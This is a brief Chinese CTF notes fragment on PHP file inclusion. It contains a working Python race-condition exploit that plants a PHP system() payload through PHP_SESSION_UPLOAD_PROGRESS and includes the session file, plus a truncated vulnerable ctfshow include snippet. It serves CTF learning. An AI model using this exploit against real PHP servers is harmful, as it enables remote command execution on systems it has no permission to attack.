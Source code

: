 

关于文件包含还有个脚本

```python
import io
import requests
import threading
url = 'http://challenge-cfd946d2e06b103c.sandbox.ctfhub.com:10800'

def write(session):
    data = {
        'PHP_SESSION_UPLOAD_PROGRESS': '<?php system("cat /flag_is_here_not_are_but_you_find");?>dotasts'
    }
    while True:
        f = io.BytesIO(b'a' * 1024 * 10)
        response = session.post(url,cookies={'PHPSESSID': 'flag'}, data=data, files={'file': ('dota.txt', f)})
def read(session):
    while True:
        response = session.get(url+'?file=/tmp/sess_flag')
        if 'dotasts' in response.text:
            print(response.text)
            break
        else:
            print('retry')

if __name__ == '__main__':
    session = requests.session()
    write = threading.Thread(target=write, args=(session,))
    write.daemon = True
    write.start()
    read(session)
```

例子有[CTF-第五空间](https://blog.csdn.net/unexpectedthing/article/details/120507688?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522163685804816780366557380%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=163685804816780366557380&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_v2~rank_v29-1-120507688.pc_v2_rank_blog_default&utm_term=%E7%AC%AC%E4%BA%94&spm=1018.2226.3001.4450)

ctfshow有个题也可以这么做

```php
<?php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    $file = str_replace("data", "???", $file);
    $file = str_replace(":", "???", $file);
    $file = str_replace(".", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);

```
